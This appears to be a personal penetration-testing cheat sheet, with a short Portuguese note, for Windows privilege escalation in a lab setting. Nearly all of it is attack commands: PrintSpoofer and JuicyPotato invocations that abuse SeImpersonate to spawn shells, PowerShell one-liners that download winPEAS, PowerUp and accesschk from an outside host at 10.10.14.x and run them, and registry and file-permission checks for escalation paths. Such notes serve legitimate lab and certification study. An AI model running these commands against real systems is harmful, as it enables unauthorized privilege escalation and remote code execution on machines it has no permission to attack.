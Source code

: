     whoami /priv

    SeImpersonate
    
    PrintSpoofer32.exe -i -c powershell
    
    JuicyPotato.exe -t * -p shell.bat -l 4444
    
    jp.exe -t * -p shell.bat -l 4444

    whoami /all
    
    SE IMPERSONATE

https://github.com/topics/seimpersonateprivilege
https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato

## Winpeas

    (new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
    ./w.exe


## PowerUp

    (new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\p.ps1')
    . ./p.ps1]
    invoke-allchecks

## ATENTIONPOINTS

Aqui um ponto de atenção é que, caso não encontre nada na máquina, vale considerar que o serviço pelo qual entramos (geralmente web app), pode fornecer um ponto de entrada para a escalação de priilégio por meio da aplicação que está rodando no contexto system. às vezes a verificação ocorre por tentiva e erro mesmo.

Detalhe que daqui em diante, as enumerações são todas vistas nos processos automatizados. Então é bom não deixar de verificar este último ponto e um double check manual mesmo.

## AlwaysElevated  

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

## Find all weak file permissions per drive.

    (new-object net.webclient).downloadfile('http://10.10.14.17/4-privilege%20escalation/accesschk64.exe', 'c:\temp\a.exe')
    
    .\a.exe -uwqs -accepteula Users c:\*.*
    .\a.exe -uwqs -accepteula "Authenticated Users" c:\*.*
    